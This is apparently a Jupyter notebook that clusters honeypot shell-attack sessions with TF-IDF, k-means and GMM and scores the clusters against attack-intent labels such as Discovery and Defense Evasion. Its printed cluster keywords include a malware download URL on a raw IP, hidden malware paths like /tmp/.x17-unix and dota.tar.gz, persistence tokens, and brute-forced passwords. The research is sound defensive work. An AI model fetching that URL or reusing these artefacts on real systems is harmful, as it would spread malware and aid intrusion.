


3. Computing t-SNE for Local Structure Analysis...
   -> Running t-SNE on 10000 samples.





>>> VISUALIZATION COMPLETE


In [ ]:
import matplotlib.pyplot as plt
import seaborn as sns
import pandas as pd
import numpy as np
import joblib as jl
from sklearn.decomposition import PCA
from sklearn.manifold import TSNE

print("=== 3.4 VISUALIZATION OF GMM CLUSTERS ===")

# --- 1. LOAD DATA & LABELS ---
try:
    X_reduced = jl.load('X_reduced_matrix.pkl')
    labels = jl.load('gmm_labels.pkl') 
    print(f"1. Data loaded: {X_reduced.shape}")
    print(f"   Labels loaded: {labels.shape}")
except FileNotFoundError:
    raise FileNotFoundError("Error: Run previous steps (SVD + GMM) first.")

# Define color palette (Automatically detects number of clusters)
unique_labels = np.unique(labels)
n_clusters = len(unique_labels)
palette = sns.color_palette("bright", n_clusters)
print(f"   (Detected {n_clusters} clusters for coloring)")

# --- 2. VISUALIZATION A: PCA (Global Structure) ---
print("\n2. Computing PCA (2 Components) for Global Visualization...")
pca = PCA(n_components=2, random_state=42)
X_pca = pca.fit_transform(X_reduced)

# Create DataFrame for Plotting
df_pca = pd.DataFrame(X_pca, columns=['PC1', 'PC2'])
df_pca['Cluster'] = labels

# Plot PCA
plt.figure(figsize=(10, 8))
sns.scatterplot(
    x='PC1', y='PC2',
    hue='Cluster',
    palette=palette,
    data=df_pca,
    legend="full",
    alpha=0.6,
    s=10 # dot size
)
plt.title('GMM Clusters Visualization using PCA (Global Structure)', fontsize=15)
plt.xlabel(f'Principal Component 1 ({pca.explained_variance_ratio_[0]:.1%} var)')
plt.ylabel(f'Principal Component 2 ({pca.explained_variance_ratio_[1]:.1%} var)')
plt.grid(True, linestyle='--', alpha=0.3)
plt.show()

# --- 3. VISUALIZATION B: t-SNE (Local Structure) ---
print("\n3. Computing t-SNE for Local Structure Analysis...")
# We use a representative subsample (10k points) to visualize density and separation.
sample_size = 10000
rng = np.random.RandomState(42)

# Ensure we don't sample more than available rows
if X_reduced.shape[0] > sample_size:
    indices = rng.choice(X_reduced.shape[0], sample_size, replace=False)
    X_sample = X_reduced[indices]
    y_sample = labels[indices]
else:
    X_sample = X_reduced
    y_sample = labels

print(f"   -> Running t-SNE on {X_sample.shape[0]} samples.")
tsne = TSNE(n_components=2, random_state=42, n_jobs=-1, perplexity=30)
X_tsne = tsne.fit_transform(X_sample)

# Create DataFrame for Plotting
df_tsne = pd.DataFrame(X_tsne, columns=['Dim1', 'Dim2'])
df_tsne['Cluster'] = y_sample

# Plot t-SNE
plt.figure(figsize=(10, 8))
sns.scatterplot(
    x='Dim1', y='Dim2',
    hue='Cluster',
    palette=palette,
    data=df_tsne,
    legend="full",
    alpha=0.7,
    s=15
)
plt.title(f'GMM Clusters Visualization using t-SNE (Subsample N={X_sample.shape[0]})', fontsize=15)
plt.xlabel('t-SNE Dimension 1')
plt.ylabel('t-SNE Dimension 2')
plt.grid(True, linestyle='--', alpha=0.3)
plt.show()

print("\n>>> VISUALIZATION COMPLETE")

### 3.4 Cluster analysis

3.4.1 Cluster analysis for k-means

=== 3.4 CLUSTER CHARACTERIZATION (K-MEANS) ===
Files Loaded:
   - TF-IDF Matrix: (233035, 1000)
   - Labels: (233035,)
   - Raw Data: (233035, 4)

2. Reconstructing vocabulary from raw data...
   -> Vocabulary size: 1000 words

3. Analyzing 5 Clusters...

--- CLUSTER 0 ANALYSIS ---
Top Representative Commands:
/var/tmp/dota*, caleb", 54321", -q, -m, siri", -plnt, 03ke", glacier", retrieve





--- CLUSTER 1 ANALYSIS ---
Top Representative Commands:
glacier", bodhilinux", dota.tar.gz, undernet", motorola", /gisdfoewrsfdf, /var/tmp/.system9s5d22fourmgf21, -g, passw0rd1", asd123"





--- CLUSTER 2 ANALYSIS ---
Top Representative Commands:
.out, .x17-unix, http://54.37.70.249/.x15cache, dst-path=7wmp0b4s.rsc\r\n/import, system, /home/admin/.dhpcd, .x19-unix, raspberry", cron, chattr





--- CLUSTER 3 ANALYSIS ---
Top Representative Commands:
.x13-unix, caleb", /var/tmp/dota*, /tmp/.x17-unix/.rsync/c/tsm, dj", -plnt, retrieve, 54321", -q, -m





--- CLUSTER 4 ANALYSIS ---
Top Representative Commands:
kl6351122", .t, scheduler, caleb", hooters", diamond", cat1029", -lh, 7, client"




In [12]:
import matplotlib.pyplot as plt
from wordcloud import WordCloud
import pandas as pd
import numpy as np
import joblib as jl
from sklearn.feature_extraction.text import TfidfVectorizer

print("=== 3.4 CLUSTER CHARACTERIZATION (K-MEANS) ===")

# --- 1. LOAD RESOURCES ---
try:
    # Load the original full-feature TF-IDF matrix (1000 features)
    X_tfidf_full = jl.load('X_tfidf_matrix.pkl')

    # Load cluster labels assigned by K-Means
    labels = jl.load('kmeans_labels.pkl')

    # Load the original dataframe containing raw commands
    df_raw = jl.load('df.pkl')

    print(f"Files Loaded:")
    print(f"   - TF-IDF Matrix: {X_tfidf_full.shape}")
    print(f"   - Labels: {labels.shape}")
    print(f"   - Raw Data: {df_raw.shape}")

except FileNotFoundError as e:
    raise FileNotFoundError(f"Missing file: {e}")

# --- 2. VOCABULARY RECONSTRUCTION ---
print("\n2. Reconstructing vocabulary from raw data...")

if 'full_session' not in df_raw.columns:
    raise ValueError("Column 'full_session' not found in df.pkl")

# Basic text cleaning to match Section 1 preprocessing
def clean_token(text):
    if not isinstance(text, str): return str(text)
    return text.replace('$', '').replace("'{}", '').replace('{', '').replace('}', '').replace("'", "")

corpus = df_raw['full_session'].apply(clean_token).tolist()

# Re-fit vectorizer to map feature indices to actual words
vectorizer = TfidfVectorizer(max_features=1000, token_pattern=r'\S+')
vectorizer.fit(corpus)
feature_names = np.array(vectorizer.get_feature_names_out())

print(f"   -> Vocabulary size: {len(feature_names)} words")

# --- 3. CLUSTER ANALYSIS ---
n_clusters = len(np.unique(labels))
print(f"\n3. Analyzing {n_clusters} Clusters...")

# Create helper dataframe for indexing
df_clusters = pd.DataFrame({'label': labels})

for k in range(n_clusters):
    print(f"\n--- CLUSTER {k} ANALYSIS ---")

    # Identify samples belonging to current cluster
    indices = df_clusters[df_clusters['label'] == k].index

    # Compute mean TF-IDF vector (centroid) for the cluster
    cluster_mean = np.asarray(X_tfidf_full[indices].mean(axis=0)).flatten()

    # Extract top 20 keywords by weight
    top_indices = cluster_mean.argsort()[::-1][:20]
    top_features = feature_names[top_indices]
    top_scores = cluster_mean[top_indices]

    # Display top keywords
    print(f"Top Representative Commands:")
    print(", ".join([f"{word}" for word in top_features[:10]]))

    # Generate Word Cloud
    word_freq = dict(zip(top_features, top_scores))

    # Use distinct colormaps for visual differentiation
    cmap = ['viridis', 'plasma', 'inferno', 'magma', 'cividis'][k % 5]

    wc = WordCloud(width=800, height=400, background_color='white', colormap=cmap).generate_from_frequencies(word_freq)

    plt.figure(figsize=(10, 5))
    plt.imshow(wc, interpolation='bilinear')
    plt.axis('off')
    plt.title(f'Cluster {k} (N={len(indices)}) - Representative Pattern')
    plt.show()

cluster analisys GMM


=== 3.5 CLUSTER CHARACTERIZATION (GMM) ===
Files Loaded:
   - TF-IDF Matrix: (233035, 1000)
   - Labels: (233035,)
   - Raw Data: (233035, 4)

2. Reconstructing vocabulary from raw data...
   -> Vocabulary size: 1000 words

3. Analyzing 5 GMM Clusters...

--- GMM CLUSTER 0 ANALYSIS ---
Top Representative Commands:
glacier", bodhilinux", dota.tar.gz, undernet", motorola", /gisdfoewrsfdf, /var/tmp/.system9s5d22fourmgf21, -g, passw0rd1", asd123"





--- GMM CLUSTER 1 ANALYSIS ---
Top Representative Commands:
/var/tmp/dota*, caleb", 54321", -q, -m, siri", -plnt, 03ke", glacier", retrieve





--- GMM CLUSTER 2 ANALYSIS ---
Top Representative Commands:
.out, .x17-unix, http://54.37.70.249/.x15cache, /home/admin/.dhpcd, .x19-unix, raspberry", cron, chattr, whoami, ibm"





--- GMM CLUSTER 3 ANALYSIS ---
Top Representative Commands:
.x13-unix, caleb", /var/tmp/dota*, /tmp/.x17-unix/.rsync/c/tsm, dj", -plnt, retrieve, 54321", -q, -m





--- GMM CLUSTER 4 ANALYSIS ---
Top Representative Commands:
kl6351122", .t, scheduler, caleb", hooters", diamond", cat1029", -lh, 7, client"




In [ ]:
import matplotlib.pyplot as plt
from wordcloud import WordCloud
import pandas as pd
import numpy as np
import joblib as jl
from sklearn.feature_extraction.text import TfidfVectorizer

print("=== 3.5 CLUSTER CHARACTERIZATION (GMM) ===")

# --- 1. LOAD RESOURCES ---
try:
    # Load the original full-feature TF-IDF matrix (1000 features)
    # Ensure this file exists from Section 1
    X_tfidf_full = jl.load('X_tfidf_matrix.pkl')

    # Load cluster labels assigned by GMM
    
    labels = jl.load('gmm_labels.pkl')

    # Load the original dataframe containing raw commands
    df_raw = jl.load('df.pkl')

    print(f"Files Loaded:")
    print(f"   - TF-IDF Matrix: {X_tfidf_full.shape}")
    print(f"   - Labels: {labels.shape}")
    print(f"   - Raw Data: {df_raw.shape}")

except FileNotFoundError as e:
    raise FileNotFoundError(f"Missing file: {e}. Make sure previous steps are run.")

# --- 2. VOCABULARY RECONSTRUCTION ---
print("\n2. Reconstructing vocabulary from raw data...")

if 'full_session' not in df_raw.columns:
    
    col_name = 'body' if 'body' in df_raw.columns else 'full_session'
    if col_name not in df_raw.columns:
         raise ValueError(f"Column '{col_name}' not found. Available: {df_raw.columns}")
else:
    col_name = 'full_session'

# Basic text cleaning to match Section 1 preprocessing
def clean_token(text):
    if not isinstance(text, str): return str(text)
    return text.replace('$', '').replace("'{}", '').replace('{', '').replace('}', '').replace("'", "")

corpus = df_raw[col_name].apply(clean_token).tolist()

# Re-fit vectorizer to map feature indices to actual words
# We must use the exact same settings as Section 1 to ensure indices match
vectorizer = TfidfVectorizer(max_features=1000, token_pattern=r'\S+')
vectorizer.fit(corpus)
feature_names = np.array(vectorizer.get_feature_names_out())

print(f"   -> Vocabulary size: {len(feature_names)} words")

# --- 3. CLUSTER ANALYSIS ---
n_clusters = len(np.unique(labels))
print(f"\n3. Analyzing {n_clusters} GMM Clusters...")

# Create helper dataframe for indexing
df_clusters = pd.DataFrame({'label': labels})

for k in sorted(df_clusters['label'].unique()):
    print(f"\n--- GMM CLUSTER {k} ANALYSIS ---")

    # Identify samples belonging to current cluster
    indices = df_clusters[df_clusters['label'] == k].index

    # Compute mean TF-IDF vector (centroid) for the cluster
    # This shows the "average attack" in this cluster
    cluster_mean = np.asarray(X_tfidf_full[indices].mean(axis=0)).flatten()

    # Extract top 20 keywords by weight
    top_indices = cluster_mean.argsort()[::-1][:20]
    top_features = feature_names[top_indices]
    top_scores = cluster_mean[top_indices]

    # Display top keywords
    print(f"Top Representative Commands:")
    print(", ".join([f"{word}" for word in top_features[:10]]))

    # Generate Word Cloud
    word_freq = dict(zip(top_features, top_scores))

    # Use distinct colormaps for visual differentiation
    # Cycle through maps if more than 5 clusters
    cmap = ['viridis', 'plasma', 'inferno', 'magma', 'cividis'][k % 5]

    wc = WordCloud(width=800, height=400, background_color='white', colormap=cmap).generate_from_frequencies(word_freq)

    plt.figure(figsize=(10, 5))
    plt.imshow(wc, interpolation='bilinear')
    plt.axis('off')
    plt.title(f'GMM Cluster {k} (N={len(indices)}) - Representative Pattern')
    plt.show()

### 3.5 Clusters reflect intent division

For k-means

=== 3.5 EXTERNAL EVALUATION (K-MEANS) ===
Data Loaded:
   - Predicted Clusters: (233035,)
   - Ground Truth Matrix: (233035, 7)

2. Converting Ground Truth to Single Labels...
   -> Classes: ['Defense Evasion' 'Discovery' 'Execution' 'Harmless' 'Impact' 'Other'
 'Persistence']

3. Calculating Evaluation Metrics...
   >>> PURITY: 0.9898 (0 to 1)
   >>> ADJUSTED RAND INDEX (ARI): 0.2213 (-1 to 1)

4. Visualizing Intent Division...





>>> DETAILED CLUSTER COMPOSITION:
   - Cluster 0 is dominated by 'Discovery' (100.00%)
   - Cluster 1 is dominated by 'Discovery' (99.57%)
   - Cluster 2 is dominated by 'Defense Evasion' (99.23%)
   - Cluster 3 is dominated by 'Discovery' (100.00%)
   - Cluster 4 is dominated by 'Discovery' (46.65%)


In [21]:
import matplotlib.pyplot as plt
import pandas as pd
import numpy as np
import joblib as jl
import seaborn as sns
from sklearn.metrics import adjusted_rand_score
from sklearn.preprocessing import MultiLabelBinarizer
import ast

print("=== 3.5 EXTERNAL EVALUATION (K-MEANS) ===")

# --- 1. LOAD DATA ---
try:
    # Load Predicted Cluster Labels (k=5)
    y_pred = jl.load('kmeans_labels.pkl')

    # Load Ground Truth Matrix (The target 'y')
    y_true_matrix = jl.load('matrice_y.pkl')

    # Load Raw Data to recover Class Names (Intents)
    raw_data = jl.load('df_fingerprint_list.pkl')

    print(f"Data Loaded:")
    print(f"   - Predicted Clusters: {y_pred.shape}")
    print(f"   - Ground Truth Matrix: {y_true_matrix.shape}")

except FileNotFoundError as e:
    raise FileNotFoundError(f"Missing file: {e}")

# --- 2. PREPARE GROUND TRUTH LABELS ---
# The y_matrix is multi-label (binary). We need to convert it to single labels
# to compare with K-Means (which is single-label).
# We take the 'argmax' (the first or dominant class) for evaluation purposes.

print("\n2. Converting Ground Truth to Single Labels...")

# Recover class names
if len(raw_data) > 0 and isinstance(raw_data[0], str):
    raw_data = [ast.literal_eval(x) for x in raw_data]
mlb = MultiLabelBinarizer()
mlb.fit(raw_data)
class_names = mlb.classes_
print(f"   -> Classes: {class_names}")

# Convert matrix to array of indices (0 to 6)
y_true_indices = y_true_matrix.argmax(axis=1)
# Map indices to names
y_true_names = np.array([class_names[i] for i in y_true_indices])

# --- 3. CALCULATE METRICS (PURITY & ARI) ---
print("\n3. Calculating Evaluation Metrics...")

def purity_score(y_true, y_pred):
    # Compute confusion matrix
    contingency_matrix = pd.crosstab(y_true, y_pred)
    # Return sum of max values in each column / total samples
    return np.sum(contingency_matrix.max(axis=0)) / np.sum(contingency_matrix.sum())

purity = purity_score(y_true_indices, y_pred)
ari = adjusted_rand_score(y_true_indices, y_pred)

print(f"   >>> PURITY: {purity:.4f} (0 to 1)")
print(f"   >>> ADJUSTED RAND INDEX (ARI): {ari:.4f} (-1 to 1)")

# --- 4. VISUALIZATION (INTENT DISTRIBUTION) ---
print("\n4. Visualizing Intent Division...")

# Create a DataFrame combining Clusters and True Intents
df_eval = pd.DataFrame({
    'Cluster': y_pred,
    'Intent': y_true_names
})

# Cross-tabulation: Count how many of each Intent are in each Cluster
# Normalize='index' calculates percentages per cluster (rows sum to 1)
ct = pd.crosstab(df_eval['Cluster'], df_eval['Intent'], normalize='index')

# Plot Stacked Bar Chart
ax = ct.plot(kind='bar', stacked=True, figsize=(12, 7), colormap='tab10')

plt.title('Homogeneity Analysis: How Intents are divided into K-Means Clusters', fontsize=15)
plt.xlabel('Cluster ID', fontsize=12)
plt.ylabel('Proportion of Intents', fontsize=12)
plt.legend(title='True Intent', bbox_to_anchor=(1.05, 1), loc='upper left')
plt.grid(axis='y', linestyle='--', alpha=0.3)
plt.xticks(rotation=0)
plt.tight_layout()
plt.show()

# --- 5. PRINT DOMINANT CLASS PER CLUSTER ---
print("\n>>> DETAILED CLUSTER COMPOSITION:")
for k in range(len(np.unique(y_pred))):
    row = ct.loc[k]
